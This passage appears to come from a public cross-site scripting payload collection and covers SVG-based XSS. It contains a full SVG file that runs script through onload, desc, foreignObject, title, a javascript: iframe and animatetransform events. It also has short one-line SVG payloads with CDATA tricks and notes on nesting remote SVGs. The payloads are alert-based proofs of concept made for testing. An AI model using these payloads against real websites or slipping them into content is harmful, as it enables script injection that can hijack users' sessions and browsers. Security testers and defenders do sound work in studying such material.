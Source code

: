 More comprehensive payload with svg tag attribute, desc script, foreignObject script, foreignObject iframe, title script, animatetransform event and simple script. Codename: red ligthning. Author: noraj.

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" width="100" height="100" xmlns="http://www.w3.org/2000/svg" onload="alert('svg attribut')">
  <polygon id="lightning" points="0,100 50,25 50,75 100,0" fill="#ff1919" stroke="#ff0000"/>
  <desc><script>alert('svg desc')</script></desc>
  <foreignObject><script>alert('svg foreignObject')</script></foreignObject>
  <foreignObject width="500" height="500">
    <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert('svg foreignObject iframe');" width="400" height="250"/>
  </foreignObject>
  <title><script>alert('svg title')</script></title>
  <animatetransform onbegin="alert('svg animatetransform onbegin')"></animatetransform>
  <script type="text/javascript">
    alert('svg script');
  </script>
</svg>
```

#### Short SVG Payload

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### Nesting SVG and XSS

Including a remote SVG image in a SVG works but won't trigger the XSS embedded in the remote SVG. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg" height="200" width="200"/>
</svg>
```

Including a remote SVG fragment in a SVG works but won't trigger the XSS embedded in the remote SVG element because it's impossible to add vulnerable attribute on a polygon/rect/etc since the `style` attribute is no longer a vector on modern browsers. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg#lightning"/>
</svg>
```

